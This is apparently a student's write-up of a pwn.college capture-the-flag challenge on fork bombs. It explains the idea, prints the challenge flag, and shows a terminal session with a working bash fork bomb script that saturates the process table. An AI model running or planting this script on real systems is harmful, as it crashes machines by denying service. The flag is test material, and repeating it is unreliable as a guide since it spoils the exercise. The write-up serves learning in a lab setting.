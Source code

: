 # Daring Destruction

## Fork Bomb
If you create processes faster than the kernel can handle, the process table fills up and everything grinds to a halt. This new process (e.g., of an ls invocation) is ``forked'' off of a parent process (e.g., a shell instance). Thus, the induced explosion of processes is called a "Fork Bomb".

### Objective
You have the tools to do this:

write a small script (like in the Chaining Commands module)
make it executable (like in the Perceiving Permissions module)
make it launch a copy of itself in the background (like in the Processes and Jobs module)
and then launch another copy of itself in the background!
Each copy will launch two more, and each of those will launch two more, and you will flood the system with so many processes that new ones will not be able to start!

This challenge contains a /challenge/check that'll try to determine if your fork bomb is working (e.g., if it can't launch new processes) and give you the flag if so. 

### Solve
**Flag:** `pwn.college{gCWVVS-YvG6dxui5K91g-7yr-k5.QXxITM3EDLygjN0czW}`

- I launched the `/challenge/check` command in the terminal. Then opened another terminal and there I made a script 'x' and lauched it. After the system was overwhelmed, I got the flag.

```
hacker@destruction~the-fork-bomb:~$ /challenge/check
It looks like the system can still spawn processes. We'll check again in 5 seconds...
You successfully saturated the process table.  Here is your hard-earned flag:
pwn.college{gCWVVS-YvG6dxui5K91g-7yr-k5.QXxITM3EDLygjN0czW}
hacker@destruction~the-fork-bomb:~$ cat x
#!/bin/bash

:(){
  : | : &
  };

:
hacker@destruction~the-fork-bomb:~$
```

### New Learnings
1. We can easily overwhelm the system by creating more processes than what the kernel can handle. Fork Bomb is one of the ways we can do that.

### References
1. [Fork Bomb](https://www.youtube.com/watch?v=RhtjGp7oMvE)
